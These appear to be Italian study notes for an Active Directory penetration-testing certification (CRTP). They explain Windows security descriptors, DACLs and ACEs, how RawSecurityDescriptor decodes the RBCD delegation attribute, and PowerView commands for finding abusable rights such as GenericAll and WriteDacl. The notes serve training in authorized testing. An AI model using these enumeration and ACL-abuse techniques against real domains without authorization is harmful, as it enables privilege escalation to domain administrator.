#### Cosa fa questo comando $sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0

Crea un oggetto .NET di tipo RawSecurityDescriptor che sa come interpretare quei byte grezzi.

Pezzo per pezzo
- ```New-Object``` — crea una nuova istanza di una classe .NET. PowerShell può usare direttamente tutte le classi del .NET framework, non solo i cmdlet PowerShell.
- ```Security.AccessControl.RawSecurityDescriptor``` — è la classe .NET che rappresenta una security descriptor. Sa come leggere il formato binario delle security descriptor di Windows e trasformarlo in oggetti navigabili con proprietà leggibili.
- ```-ArgumentList $raw, 0``` — sono i parametri passati al costruttore della classe:
  - ```$raw``` = l'array di byte che hai letto dall'attributo AD
  - ```0``` = l'offset da cui iniziare a leggere nell'array — zero significa "parti dall'inizio"


> Analogia
> 
> È come avere un file PDF salvato come sequenza di byte grezzi. Da soli quei byte non significano nulla — sono solo numeri. Quando apri Adobe Reader stai facendo la stessa cosa: passi i byte grezzi a un programma che sa interpretare il formato PDF e te lo mostra in modo leggibile.
>
> RawSecurityDescriptor è il "Adobe Reader" per le security descriptor di Windows.

##### Cosa contiene l'oggetto dopo la decodifica
```
$sd = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0

$sd | select *
# Owner              : S-1-5-32-544  (Administrators)
# Group              : S-1-5-32-544
# DiscretionaryAcl   : {ACE1, ACE2, ...}  ← lista di chi ha accesso
# SystemAcl          : {}
# ControlFlags       : SePresentOwnerDefaulted...

# La parte che ti interessa è DiscretionaryAcl
$sd.DiscretionaryAcl | select SecurityIdentifier, AceType, AccessMask
# SecurityIdentifier = S-1-5-21-...-1234  ← SID di WEB-SRV$
# AceType            = Allow
# AccessMask         = 983551              ← permessi in formato numerico
```

La ```DiscretionaryAcl``` (DACL) è la lista degli ACE — Access Control Entry — che definiscono chi ha quali permessi. Nel caso di ```msds-allowedtoactonbehalfofotheridentity``` ogni ACE rappresenta un account che può delegare verso quella macchina.


#### Cosa sono security descriptor?
Una security descriptor è una struttura dati che Windows attacca a qualsiasi oggetto securizzabile — file, cartelle, chiavi di registry, oggetti AD, processi, servizi — e che definisce chi può fare cosa su quell'oggetto.

##### Cosa contiene
- Owner — chi possiede l'oggetto. Il proprietario può sempre modificare i permessi anche se non ha accesso esplicito.
- Group — gruppo primario del proprietario (legacy, usato poco oggi).
- DACL (Discretionary Access Control List) — la parte più importante. È la lista che definisce chi ha accesso e con quali permessi. Contiene una serie di ACE (Access Control Entry), ognuna delle quali dice "questo utente/gruppo può fare questa cosa".
- SACL (System Access Control List) — definisce cosa viene loggato negli eventi di sicurezza di Windows. "Logga ogni volta che qualcuno legge questo file" per esempio.

##### Cosa sono gli ACE
Ogni ACE dentro la DACL ha tre componenti:
```
SecurityIdentifier  →  chi (SID dell'utente o gruppo)
AceType             →  Allow o Deny
AccessMask          →  cosa (lettura, scrittura, esecuzione, ecc.)
```
Esempio su un file:
```
ACE 1: S-1-5-21-...-1001 (Mario)   Allow   Read, Write
ACE 2: S-1-5-32-544 (Administrators)  Allow   FullControl
ACE 3: S-1-5-21-...-1002 (Luca)    Deny    Read
```
Windows legge gli ACE in ordine — i Deny vengono prima degli Allow. Quindi Luca non può leggere il file anche se fosse in un gruppo che ha Allow.

> Analogia concreta
> Immagina un edificio aziendale. La security descriptor è il documento di sicurezza dell'edificio che dice:
> - proprietario: il direttore
> - DACL: Mario può entrare in ufficio e sala riunioni, Luca solo in ufficio, gli esterni non possono entrare da nessuna parte
> - SACL: logga ogni accesso alla sala server


##### Perché è rilevante in AD
In Active Directory ogni oggetto — utente, computer, GPO, OU — ha la sua security descriptor. Quando PowerView fa ```Find-InterestingDomainAcl``` sta leggendo le DACL di tutti gli oggetti AD cercando ACE che danno permessi interessanti a utenti non privilegiati.
I permessi più pericolosi su oggetti AD sono:
```
GenericAll        →  controllo totale sull'oggetto
WriteDacl         →  puoi modificare la DACL → puoi darti qualsiasi permesso
WriteOwner        →  puoi diventare proprietario → poi modifichi la DACL
GenericWrite      →  puoi modificare attributi → RBCD abuse
ForceChangePassword →  puoi cambiare la password senza conoscere quella attuale
```

##### Come le vedi in PowerShell
```
# Security descriptor di un file
Get-Acl C:\secret.txt | select Owner, Access

# Security descriptor di un oggetto AD
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | 
  select SecurityIdentifier, ActiveDirectoryRights, AceType

# Chi ha GenericAll su un utente
Get-DomainObjectAcl -Identity mario -ResolveGUIDs | 
  where {$_.ActiveDirectoryRights -match "GenericAll"}
```

> Nella CRTP abusare delle ACL mal configurate è uno dei path più comuni verso DA — spesso un utente normale ha WriteDacl su un gruppo privilegiato o GenericAll su un utente admin, e questo è sufficiente per scalare i privilegi senza toccare nessuna vulnerabilità tecnica.